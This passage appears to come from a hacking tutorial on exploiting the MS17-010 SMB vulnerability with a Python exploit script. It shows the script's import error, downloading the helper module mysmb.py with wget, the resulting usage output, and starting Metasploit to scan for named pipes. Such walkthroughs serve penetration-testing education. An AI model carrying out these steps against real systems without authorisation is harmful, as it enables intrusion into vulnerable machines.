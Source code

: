 Save it, and now we can try to run the exploit.

```
python exploit.py
```

```
Traceback (most recent call last):
  File "exploit.py", line 3, in 
    from mysmb import MYSMB
ImportError: No module named mysmb
```

It looks like it is trying to import a module named **mysmb**, so in order for this to work, we need to download it. We can easily do that using **wget**.

```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

```
--2019-03-26 11:25:44--  https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.148.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.148.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16669 (16K) [text/plain]
Saving to: ‘mysmb.py’

mysmb.py                                             100%[=====================================================================================================================>]  16.28K  --.-KB/s    in 0.03s

2019-03-26 11:25:44 (528 KB/s) - ‘mysmb.py’ saved [16669/16669]
```

Try running the file again and we get different output.

```
python exploit.py
```

```
exploit.py  [pipe_name]
```

It looks like usage information now, which is a good sign. We need to plug in the IP address of our target and a pipe name as parameters.

## Step 2: Find Named Pipe

Named pipes are a way for running processes to communicate with each other with very little overhead. Pipes usually appear as files for other processes to attach to. [Metasploit](https://null-byte.wonderhowto.com/how-to/metasploit-basics/) has a scanner that will find any named pipes on a host. In a new terminal, type **msfconsole** to fire it up, then we can search for the scanner.

```
msfconsole
search pipe
```
